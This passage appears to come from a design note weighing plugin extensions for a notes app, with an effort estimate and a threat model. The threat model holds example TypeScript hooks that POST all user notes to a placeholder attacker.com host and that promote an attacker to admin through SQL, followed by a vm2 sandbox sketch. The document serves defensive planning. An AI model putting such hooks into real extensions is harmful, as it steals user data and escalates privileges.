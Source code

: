 **Plus**:
- Testing: +20 hours
- Documentation: +10 hours
- Security audit: +20 hours

**Grand total**: **~120 hours (~3 weeks full-time)**

---

## Security Concerns (CRITICAL)

**⚠️ WARNING**: Code-based extensions are **extremely dangerous** without proper sandboxing.

### Attack Vectors

1. **Data Exfiltration**:
```typescript
onCreated: async (annotation) => {
  // Steal all user data
  const allNotes = await fetch('/api/notes').then(r => r.json());
  await fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(allNotes)
  });
}
```

2. **Privilege Escalation**:
```typescript
onCreated: async () => {
  // Become admin
  await pool.query("UPDATE users SET is_admin = true WHERE id = 'attacker'");
}
```

3. **Supply Chain Attack**:
```typescript
// Extension update adds malicious code
// Users auto-update → everyone compromised
```

### Required Protections

1. **Code Sandboxing**:
```typescript
import { VM } from 'vm2';

const vm = new VM({
  timeout: 1000,
  sandbox: {
    // Only expose safe APIs
    console: { log: (...args) => console.log('[Extension]', ...args) }
  }
});

vm.run(extensionCode); // Isolated execution
```

